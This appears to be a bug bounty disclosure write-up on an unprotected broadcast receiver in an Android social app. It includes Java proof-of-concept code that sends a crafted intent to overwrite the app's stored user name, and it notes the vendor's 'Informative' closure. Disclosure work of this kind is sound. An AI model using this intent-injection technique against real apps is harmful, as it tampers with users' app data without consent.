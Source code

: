 ## Android  Security Report
- Date: 27th November 2021
- Target: Micro blogging and Social Networking Android App on Play Store
- Reporting platgorm: Hackerone
## Summary
In the target app, the developer dynamically registered a broadcast receiver and implemented unregistering the  broadcast receiver while the app is not in the foreground, which could be considered good practice. However, on the Android system, any app can send intents while another (target) app is running in the foreground. Additionally, using a reverse APK tool, intent filters declared in the app's code can be disclosed.

Through static analysis, it was discovered that the target app did not set the appropriate permissions for the dynamically registered broadcast receiver nor apply strict intent validation for the received intent. This oversight allowed me to build a malicious app capable of writing a value to the target app's shared preferences file.
## Impact
A malicious app can write arbitrary values for key user_name to the target apps's shared preferences file.
## POC
- Steps to reproduce
    1. Launch POC app.
    2. Wait 5 seconds.
    3. check the target app's shard preferences file.
        - file path: /data/data/com.xxxxxx/shared_pref/xxxxxx.xml
- Key features of POC app
```java
// MainActivity.java
@Override
protected void onCreate(Bundle savedInstanceState {
	super.onCreate(savedInstanceState);

	// Launch the target app.
	Intent i = getPackageManager().getLaunchIntentForPackage("com.xxxxxx");

	if (i != null) { 
		startActivity(i)
	}
}

@Override  
protected void onPause() {
	super.onPause();
	
	Intent i = new Intent(this, EvilService.class);
	
	startService(i);
}


// EvilService.java
@Override
protected void onHandleIntent(@Nullable Intent intent) {

	// This value does not have to be in email format and can be of any length.
	String attack_email = "arbiturary@ema.il";

	try {
            // Wait 5 seconds for the target app to launch and register the receiver.
            Thread.sleep((long) 5000.0);
	} catch (InterruptedException e) {
            e.printStackTrace();
	}

	Bundle bundle_1 = new Bundle();
	bundle_1.putString("email", attack_email);

	Bundle bundle_2 = new Bundle();
	bundle_2.putBundle("********_request_params", bundle_1);

	Intent i = new Intent("com.xxxxxx.intent.action.NEW_NOTIFICATIONS");
	i.putExtra("api", "settings");
	i.putExtra("********", bundle_2);

	sendBroadcast(i);
}
```
## Conclusion
“ Thanks for your report. Looking at the decompiled code of the application, I was indeed
able to locate the BroadcastReceiver and its handler, although, writing the user_name field
in the XML file poses no security concerns.”

As a result, we're closing this submission as ***Informative***.
## Used Tools and Techniques
- ADB
- Frida
- Objection
- Dex2jar
- Jadx
- Python
- Reverse engineering
- Dynamic/Static analysis
- Android app development
## My thought
I was so thrilled and happy that it worked and closed it as informative🔓 Indeed, the value of 'user_name' in shared preferences is not used in any critical logic. The only concern is that it could make users see a weird name in the app like 'Hi, 😈_app_sets_your_name'. Still, it could potentially be dangerous in the future, so it is better to implement proper validation for handling the received intent.

